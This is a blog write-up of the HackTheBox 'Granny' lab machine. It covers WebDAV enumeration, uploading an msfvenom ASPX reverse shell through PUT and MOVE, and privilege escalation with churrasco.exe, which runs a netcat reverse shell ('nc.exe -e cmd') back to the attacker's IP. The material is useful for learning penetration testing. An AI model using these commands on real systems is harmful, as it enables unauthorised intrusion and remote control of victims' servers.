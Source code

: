 ```yaml
---
title: "Granny"
date: 2023-07-24T21:17:42+02:00
tags: ["windows","web","privesc"]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "Windows machine which has webDAV which allow us to put a reverse shell to gain RCE. We have privesc thanks to the SeImpersonatePrivilege which can be exploited with tools like churrasco or JuicyPotato."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Granny
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/granny

![Untitled](/HTB/granny-icon.png)

## Tools Used

- Nmap
- davtest
- cadaver/curl

## Port Scanning

```bash
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-webdav-scan:
|   Server Date: Fri, 21 Jul 2023 15:41:46 GMT
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_http-title: Under Construction
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The scan shows one unique open port serving a webpage, a Microsoft IIS httpd 6.0 (old version of IIS) can be a point of entry. We can see that is using webdav allowing us the use of a lot of useful methods like PUT and MOVE.

**WebDav**  is a set of extensions to the **Hypertext Transfer Protocol (HTTP**), which allows user agents to collaboratively author contents *directly* in an **HTTP web server** by providing facilities for concurrency control and namespace operations, thus allowing Web to be viewed as a *writeable, collaborative medium* and not just a read-only medium.

## Enumeration

Let’s take a look to the page in question

![Untitled](/HTB/granny-1.png)

![Untitled](/HTB/granny-2.png)

Nothing useful is displayed, only an under construction page.

Now let’s see if what type of files let us the dav to upload with the PUT option.

There is a tool called **davtest** which help us to perform a fast scan to see what are the allowed file extensions.

```bash

```

As we have **IIS**, it’s so probable is running aspx files, but the scan results shows that this type of files are not allowed with **PUT** option. Maybe we can put a file with an allowed extension to after that change his extension with **MOVE** option to aspx.

## Exploiting

First let’s create the reverse shell with msfvenom and change his extension to html (allowed extension) with mv.

```bash
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.20 LPORT=4444 -o reverse-shell.aspx
mv reverse-shell.aspx reverse-shell.html 
```

Let’s try to upload it with other tool called **cadaver** which help us to use the DAV options more easily (we can do the same with curl).

![Untitled](/HTB/granny-3.png)

Once uploaded the reverse-shell.html with PUT option, now let’s change the extension with MOVE.

![Untitled](/HTB/granny-4.png)

Now only need execute the reverse shell and put a listener to perform the attack.

```bash
nc -lv 4444
```

## Gaining an Initial Foothold

![Untitled](/HTB/granny-5.png)

We are as “nt authority\network service”.

I tried to acces to the user and admin directories but I am not allowed.

![Untitled](/HTB/granny-6.png)

![Untitled](/HTB/granny-7.png)

Taking a look at our privilege we can see some interesting privileges

```powershell
whoami /priv
```

```powershell
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

The SeImpersonatePrivilege allow us to use tools like [JuicyPotato](https://github.com/ohpe/juicy-potato) to privesc.

## Escalating Privilege

If we go to tested windows machines list which work with such exploit, we don’t see our system version `Microsoft(R) Windows(R) Server 2003, Standard Edition`.

![Untitled](/HTB/granny-8.png)

So we need to search an alternative exploit which do the same.

Searching on google I found a [blog](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/) which solve my problem.

The blog talks about churrasco exploit that is similar to [juicypotato](https://binaryregion.wordpress.com/2021/06/14/privilege-escalation-windows-juicypotato-exe/)
exploit. That exploit is useful in some scenarios JuicyPotato exploit is not compatible with 
the older systems like Windows server 2003 or Windows XP.

Let’s send it with smbserver.py, first we need to perform the following command on the churrasco.exe directory.

```bash
smbserver.py smbFolder $(pwd) -smb2support
```

I always make a directory on the Temp directory of windows to avoid problems with the transfer.

Now let’s copy it.

```powershell
cd \Windows\Temp
mkdir PrivEsc
cd PrivEsc
copy \\10.10.14.20\smbFolder\churrasco.exe .
```

Before the run we need to put a command as an argument between two quotation marks.

```powershell
.\churrasco.exe "whoami"
```

![Untitled](/HTB/granny-10.png)

Now only rests to put a nc listener and send a reverse shell with nc, I put a smbserver.py on the nc.exe directory in order to execute the next payload to have a reverse shell.

```powershell
nc -lv 4445
```

```powershell
.\churrasco.exe "\\10.10.14.20\smbFolder\nc.exe -e cmd 10.10.14.20 4445"
```

![Untitled](/HTB/granny-9.png)

We are root users now.

### Flag(s)

**User’s flag**

![Untitled](/HTB/granny-11.png)

**Root’s flag**

![Untitled](/HTB/granny-12.png)

**Thank you for reading, and happy hacking! 😄**